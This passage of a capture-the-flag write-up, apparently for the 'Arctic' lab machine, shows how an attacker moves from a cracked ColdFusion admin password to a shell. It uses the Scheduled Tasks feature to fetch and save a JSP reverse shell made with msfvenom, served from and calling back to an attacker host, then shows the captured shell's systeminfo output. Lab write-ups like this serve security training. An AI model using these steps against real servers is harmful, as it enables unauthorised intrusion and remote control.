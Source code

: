 ```
```

[Crackstation.net](https://crackstation.net/) decrypts this to `happyday` and we gain access to the admin panel.


After a poke about we find a possible route forwards.


Under `Debugging & Logging` goto `Scheduled Tasks`


<h4>schedule new task</h4>

We can use this scheduler to upload a reverse shell.

Use msfvenom to generate shell.jsp

```

msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.24 LPORT=443 -f raw > evil.jsp

```


make sure you get the correct path that the file is saved to, 
and tick checkbox to save output to file.

`C:\ColdFusion8\wwwroot\CFIDE\evil.jsp`

set a listener for 443, and python server on 80 to serve file

Point the scheduler to the evil file...
`http://10.10.14.24/evil.jsp`


click the button that executes the task....it contacts the webserver and uploads evil...
and catch the cli shell by browsing to the location of the file...

'http:10.10.10.11:8500/CFIDE/evil.jsp'

we get a shell via our nc listener...



```


C:\Users>systeminfo
systeminfo

Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 ��
System Boot Time:          9/8/2019, 8:22:16 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2300 Mhz
                           [02]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2300 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 5/4/2016
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
```